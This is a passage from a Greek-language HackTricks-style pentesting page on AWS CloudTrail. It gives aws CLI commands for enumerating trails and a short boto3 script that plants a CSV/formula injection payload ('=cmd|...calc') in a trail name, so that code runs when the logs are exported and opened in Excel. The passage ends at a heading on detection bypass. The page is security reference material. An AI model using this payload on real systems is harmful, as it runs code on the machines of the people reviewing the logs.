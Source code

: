 {% hint style="success" %}
Επομένως, ο Access Advisor ενημερώνει για **τις περιττές άδειες που δίνονται στους χρήστες** ώστε ο διαχειριστής να μπορεί να τις αφαιρέσει
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

## Actions

### Enumeration
```bash
# Get trails info
aws cloudtrail list-trails
aws cloudtrail describe-trails
aws cloudtrail list-public-keys
aws cloudtrail get-event-selectors --trail-name <trail_name>
aws [--region us-east-1] cloudtrail get-trail-status --name [default]

# Get insights
aws cloudtrail get-insight-selectors --trail-name <trail_name>

# Get data store info
aws cloudtrail list-event-data-stores
aws cloudtrail list-queries --event-data-store <data-source>
aws cloudtrail get-query-results --event-data-store <data-source> --query-id <id>
```
### **CSV Injection**

Είναι δυνατόν να εκτελέσετε μια CVS injection μέσα στο CloudTrail που θα εκτελέσει αυθαίρετο κώδικα αν τα logs εξάγονται σε CSV και ανοίγονται με το Excel.\
Ο παρακάτω κώδικας θα δημιουργήσει μια καταχώρηση log με ένα κακό Trail name που περιέχει το payload:
```python
import boto3
payload = "=cmd|'/C calc'|''"
client = boto3.client('cloudtrail')
response = client.create_trail(
Name=payload,
S3BucketName="random"
)
print(response)
```
Για περισσότερες πληροφορίες σχετικά με τις επιθέσεις CSV, ελέγξτε τη σελίδα:

{% embed url="https://book.hacktricks.xyz/pentesting-web/formula-injection" %}

Για περισσότερες πληροφορίες σχετικά με αυτή τη συγκεκριμένη τεχνική, ελέγξτε [https://rhinosecuritylabs.com/aws/cloud-security-csv-injection-aws-cloudtrail/](https://rhinosecuritylabs.com/aws/cloud-security-csv-injection-aws-cloudtrail/)

## **Παράκαμψη Ανίχνευσης**
